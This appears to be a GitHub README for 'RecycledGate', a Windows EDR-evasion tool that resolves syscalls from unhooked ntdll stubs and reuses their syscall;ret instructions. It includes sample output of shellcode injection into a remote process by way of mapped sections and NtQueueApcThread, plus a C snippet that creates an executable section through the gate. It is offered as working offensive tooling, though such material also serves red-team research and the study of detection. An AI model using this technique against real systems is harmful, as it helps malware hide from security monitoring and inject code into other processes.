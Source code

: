 # RecycledGate

This is just another implementation of Hellsgate + Halosgate/Tartarosgate.    

However, this implementation makes sure that **all system calls still go through ntdll.dll** to avoid the usage of direct systemcalls.
To do so, I parse the ntdll for nonhooked syscall-stubs and re-use existing ```syscall;ret``` instructions - thus the name of this project.   

This probably bypasses some EDR trying to detect abnormal systemcalls.    
I have verified the sample program in this repository against [syscall-detect](https://github.com/jackullrich/syscall-detect) by [@winternl_t](https://twitter.com/winternl_t) which uses the [HookingNirvana](https://github.com/ionescu007/HookingNirvana/blob/master/Esoteric%20Hooks.pdf) technique to detect abnormal systemcalls.

```
.\Sample.exe HelloWorld.bin
[SYSCALL-DETECT] Console logging started...
[SYSCALL-DETECT] ntdll BaseAddress: 0x368508928
[SYSCALL-DETECT] win32u BaseAddress: 0x0
[*] Resolving Syscall: 916c6394
        Found syscall using Halos gate
        Found syscall; ret instruction
        Syscall nr: 74
        Gate: 00007FF9160100E2
[SNIP]
[*] Resolving Syscall: 8a4e6274
        Found syscall using Halos gate
        Found syscall; ret instruction
        Syscall nr: 188
        Gate: 00007FF916010F12
[*] Created section: 0x00000000000000B4
[*] Mapped section locally: 0x000001B244E50000
[*] Mapped section remote: 0x0000000000FE0000
[*] NtQueueApcThread successfull
[*] Resumed thread
```

The sample program can be found in the **sample** folder     

## Usage
Here is a snippet, which should be self-explanatory.
```c
Syscall sysNtCreateSection = { 0x00 };
NTSTATUS ntStatus;

dwSuccess = getSyscall(0x916c6394, &sysNtCreateSection);
if (dwSuccess == FAIL)
  goto exit;

PrepareSyscall(sysNtCreateSection.dwSyscallNr, sysNtCreateSection.pRecycledGate);
ntStatus = DoSyscall(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sizeBuffer, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
if (!NT_SUCCESS(ntStatus)) {
  printf("[-] Failed to create section\n");
  goto exit;
}

```
**Note**:
* No instructions must exist between the call to **PrepareSyscall** and **DoSyscall**
* The hash algorithm used is djb2. All hashes must be encrypted with the key **0x41424344**. You can use the Hashgenerator in this repository

## Credits
* [Sektor7](https://sektor7.net) for inventing and documenting [Halosgate](https://blog.sektor7.net/#!res/2021/halosgate.md) on which this project is based
* [Sektor7](https://sektor7.net) for the amazing [windows evasion class](https://institute.sektor7.net/view/courses/rto-win-evasion/)
* [@Am0nsec](https://twitter.com/am0nsec?lang=en) and @RtlMateusz for the [original Hellsgate implementation](https://github.com/am0nsec/HellsGate)
* [@0xBoku](https://twitter.com/0xBoku) for inspiration and his [Halosgate implementation](https://github.com/boku7/AsmHalosGate/)
* [@winternl_t](https://twitter.com/winternl_t) for the amazing [blogpost on detection of direct syscalls](https://winternl.com/detecting-manual-syscalls-from-user-mode/)

